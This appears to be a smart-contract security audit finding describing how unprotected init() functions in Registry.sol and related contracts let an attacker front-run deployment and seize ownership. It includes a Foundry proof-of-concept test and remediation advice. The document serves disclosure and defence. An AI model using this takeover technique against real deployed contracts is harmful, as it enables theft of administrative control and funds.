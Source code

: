 grhkm
# Frontrunning in the Contract's Initialization Function Can Lead to an Array of Vulnerabilities

## Summary
There exists an issue in the `Account.sol`, `AccountManager.sol` and the `Registry.sol` contracts where front running allows the attacker to cause adverse effects on the contract should they succeed. 

## Vulnerability Analysis
Given the `init()` function in the `Registry.sol` contract:
```solidity
    /**
        @notice Contract Initialization function
        @dev Can only be invoked once
    */
    function init() external {
        if (initialized) revert Errors.ContractAlreadyInitialized();
        initialized = true;
        initOwnable(msg.sender);
    }
```
In the above snippet of code, the `init()` function is used to determine ownership of the contract in question (with varying state changes depending on the contract). An attacker can monitor the mempool for a contract deployment which takes a certain amount of time depending on the congestion of transactions waiting to be processed. Should an adversary catch hold of the deployment transaction, they are free to call the `init()` function to gain ownership of the contract.

I have awarded this as a "Medium" in severity because certain conditions must be met in order to execute a successful attack. The attacker should actively be monitoring the mempool for opportunities in order to exploit this attack vector.

## Impact
The following contracts are affected with the described impact:
- `Account.sol`:`59`
	- Attackers can initialize a malicious `accountManager` to manipulate funds or brick the contract.
- `AccountManager.sol`:`68`
	- `initPausable()` is called here which may be able to brick the contract if `pause()` was called by an unwanted address.
- `Registry.sol`:`61`
	- Complete ownership over the registry and user accounts as the administrator. 

## Proof of Concept
#### Exploit scenario in the case of `Registry.sol`
- Alice deploys the `Registry.sol` contract to the blockchain.
- Eve notices the contract has successfully been deployed and sees a front running opportunity by calling the `init()` function to become the admin user. 
- Eve is free to use whichever functions in the deployed contract which require an administrative privileges.  

I have included a proof of concept test outlining the above scenario as followed:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.15;

import {Errors} from "../../utils/Errors.sol";
import {TestBase} from "../utils/TestBase.sol";
import {IRegistry} from "../../interface/core/IRegistry.sol";
import {Registry} from "../../core/Registry.sol";

// Located in protocol/src/test/MyTests/TestFrontRun.sol

contract TestFrontRun is TestBase {

    address alice;
    address eve;

    function setUp() public {

        alice = cheats.addr(1);
        eve = cheats.addr(2);

    }

    function testProveFrontRunning() public {
        
        cheats.startPrank(alice);
        // Alice, the rightful owner deploys the registry contract
        Registry myReg = new Registry();
        cheats.stopPrank();

        assertEq(address(myReg.admin()), address(0));

        // Eve, a malicious user is monitoring the mempool and can frontrun alice to initialize the contract
        cheats.startPrank(eve);
        myReg.init();
        cheats.stopPrank();

        assertEq(address(myReg.admin()), address(eve));

    }

}
```

## Tool used
Manual Review

## Recommendation
Consider the following remediations to prevent a frontrunning attack on the deployed contracts:
- Implement access controls in the form of a modifer so only the deployer can call the initialization functions. 
- Consider moving the initialization operations to a contract constructor for the purpose of executing initialization code on deployment. 
